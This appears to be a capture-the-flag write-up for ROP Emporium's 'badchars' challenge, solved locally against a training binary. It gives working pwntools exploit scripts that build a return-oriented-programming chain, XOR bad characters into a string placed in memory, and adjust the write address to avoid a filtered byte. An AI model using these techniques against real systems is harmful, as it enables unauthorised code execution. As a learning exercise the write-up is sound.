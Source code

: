 # 5. badchars

the fifth challenge, it is pretty similar to the previous challenge [`write4`](./4.write4.md) but this time, the input 
is processed and turned some byte into a bad character.  

the challenge showed us the bad characters which are `'x', 'g', 'a', '.'`.  

with this knowledege let's find the gadgets and see what we can do using `ROPgadget`.  

```
0x0000000000400634 : mov qword ptr [r13], r12 ; ret
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a3 : pop rdi ; ret
```

these are some gadgets that i find useful for us to use create this ROP chain.  

now let's find where do we write to.  

```
┌──(kali㉿kali)-[~/ctf/rop/badchars]
└─$ rabin2 -S badchars
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- .got
22  0x00001000   0x28 0x00601000   0x28 -rw- .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- .data
24  0x00001038    0x0 0x00601038    0x8 -rw- .bss
```

`.data` seems okay so let's use that.  

let's make the script.  

```python
from pwn import *

padding = b"x"*40

print_file = 0x400510

pop_r1 = 0x40069c
mov_r13_r12 = 0x400634
pop_rdi = 0x4006a3

data_sec = 0x601028

file_to_print = b"flag.txt"

p = process("./badchars")

gdb.attach(p, "break print_file")

payload = padding + p64(pop_r1) + file_to_print + p64(data_sec) + p64(0xaaaaaaaa) + p64(0xaaaaaaaa) + p64(mov_r13_r12)
payload += p64(pop_rdi) + p64(data_sec) + p64(print_file)

p.sendline(payload)

p.interactive()
```

let's try it and see what will happen to our `flag.txt` string...  

```
gef➤  x/s 0x601028
0x601028:       "fl\353\353\353t\353t"
gef➤  x/2xg 0x601028
0x601028:       0x74eb74ebebeb6c66      0x0000000000000000
```

so this happened to our string, the character that are in the list of bad chars get replaced by `0xeb`.  

our ROP chain doesn't seem to be broken so lucky for us, now that we have this info what can we do? 
since some of the string are still intact we can just use some gadgets to replace the bad bytes, let's find them. 
oh wait i forgot to look into the `usefulGadgets` function so let's do that first.

```
┌──(kali㉿kali)-[~/ctf/rop/badchars]
└─$ objdump -M intel --disassemble=usefulGadgets -S badchars

badchars:     file format elf64-x86-64

0000000000400628 <usefulGadgets>:
  400628:       45 30 37                xor    BYTE PTR [r15],r14b
  40062b:       c3                      ret
  40062c:       45 00 37                add    BYTE PTR [r15],r14b
  40062f:       c3                      ret
  400630:       45 28 37                sub    BYTE PTR [r15],r14b
  400633:       c3                      ret
  400634:       4d 89 65 00             mov    QWORD PTR [r13+0x0],r12
  400638:       c3                      ret
  400639:       0f 1f 80 00 00 00 00    nop    DWORD PTR [rax+0x0]
```

i see, so we have xor, add and sub instructions for us to use byte by byte. i decided to use xor here.  

let's craft our new payload to fix the bad chars in memory.

```python
from pwn import *

def findXor(x, badbyte = 0xeb):
    for i in range(255):
        if i ^ badbyte == x:
            return i
    return 0

badbyte = 0xeb

padding = b"x"*40

print_file = 0x400510

pop_r1 = 0x40069c
mov_r13_r12 = 0x400634
pop_rdi = 0x4006a3
pop_r14_r15 = 0x4006a0
xor_r15_r14 = 0x400628
sub_r15_r14 = 0x400630

data_sec = 0x601028

file_to_print = b"flag.txt"

p = process("./badchars")

gdb.attach(p, "break print_file")

fixBadbyte = lambda char, addr : p64(pop_r14_r15) + p64(findXor(ord(char))) + p64(addr) + p64(xor_r15_r14)

payload = padding + p64(pop_r1) + file_to_print + p64(data_sec) + p64(findXor(ord("a")))
payload += p64(data_sec + 2) + p64(mov_r13_r12) + p64(xor_r15_r14) + fixBadbyte("g", data_sec + 3)
payload += fixBadbyte(".", data_sec + 4) + fixBadbyte("x", data_sec + 6) + p64(pop_rdi) + p64(data_sec) + p64(print_file)

p.sendline(payload)

p.interactive()
```

this should work...

```
┌──(kali㉿kali)-[~/ctf/rop/badchars]
└─$ python solve.py
[+] Starting local process './badchars': pid 965
[*] running in new terminal: ['/usr/bin/gdb', '-q', './badchars', '965', '-x', '/tmp/pwnms4tsxy0.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
Failed to open file: flag.t\xebt
$                           [*] Got EOF while reading in interactive
```

hold on why is that? why is the character `x` doesn't get fixed? maybe our rop chain is broken so let's see.  

`fixBadbyte("x", data_sec + 6)` is where we fix the bad char for `x` since we know that addresses also get 
affected by the bad chars filter, so something goes wrong here, maybe the address??  

we know our `.data` section is `0x601028` since we `+6` the address is `0x601028 + 6 = 0x60102e` and it includes 
one of the bad bytes which is `0x2e`. so what can we do here...  

how about we shift the address of `.data` by one so that our ROP chain doesn't use `0x60102e` any more 
but instead we use `0x60102f`, sounds great! let's do just that.

```python
from pwn import *

def findXor(x, badbyte = 0xeb):
    for i in range(255):
        if i ^ badbyte == x:
            return i
    return 0

badbyte = 0xeb

padding = b"x"*40

print_file = 0x400510

pop_r1 = 0x40069c
mov_r13_r12 = 0x400634
pop_rdi = 0x4006a3
pop_r14_r15 = 0x4006a0
xor_r15_r14 = 0x400628
sub_r15_r14 = 0x400630

data_sec = 0x601029

file_to_print = b"flag.txt"

p = process("./badchars")

gdb.attach(p, "break print_file")

fixBadbyte = lambda char, addr : p64(pop_r14_r15) + p64(findXor(ord(char))) + p64(addr) + p64(xor_r15_r14)

payload = padding + p64(pop_r1) + file_to_print + p64(data_sec) + p64(findXor(ord("a")))
payload += p64(data_sec + 2) + p64(mov_r13_r12) + p64(xor_r15_r14) + fixBadbyte("g", data_sec + 3)
payload += fixBadbyte(".", data_sec + 4) + fixBadbyte("x", data_sec + 6) + p64(pop_rdi) + p64(data_sec) + p64(print_file)

p.sendline(payload)

p.interactive()
```

let's run it  

```
┌──(kali㉿kali)-[~/ctf/rop/badchars]
└─$ python solve.py
[+] Starting local process './badchars': pid 1008
[*] running in new terminal: ['/usr/bin/gdb', '-q', './badchars', '1008', '-x', '/tmp/pwn6i7nie6c.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

nicesu!!!
